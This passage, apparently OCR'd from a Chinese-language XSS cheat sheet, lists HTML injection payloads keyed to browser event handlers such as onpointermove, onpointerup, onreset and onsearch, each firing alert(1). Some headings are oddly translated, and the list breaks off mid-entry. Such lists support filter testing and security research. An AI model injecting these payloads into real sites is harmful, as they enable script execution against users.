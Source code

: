 ```
<xss onpointerleave=alert(1) style=display:block>XSS</xss>
```

#### **onpointermove**

当鼠标移动时激发

```
<xss onpointermove=alert(1) style=display:block>XSS</xss>
```

#### **onpointerout**

当鼠标离开时激发

```
<xss onpointerout=alert(1) style=display:block>XSS</xss>
```

#### **onpointerover**

当 mouseover(鼠标指向选定的元素)事件发生时激发

```
<xss onpointerover=alert(1) style=display:block>XSS</xss>
```

#### **onpointerrawupdate**

当指针改变时激发

```
<xss onpointerrawupdate=alert(1) style=display:block>XSS</xss>
```

#### **onpointerup**

当鼠标抬起时激发

```
<xss onpointerup=alert(1) style=display:block>XSS</xss>
```

#### **正在重置**

需要点击

```
<form onreset=alert(1)><input type=reset>
```

#### **onsearch**

当提交表单并且输入的类型属性为 search 时激发

```
<form><input type=search onsearch=alert(1) value="Hit return" autofocus>
```

#### **接通**
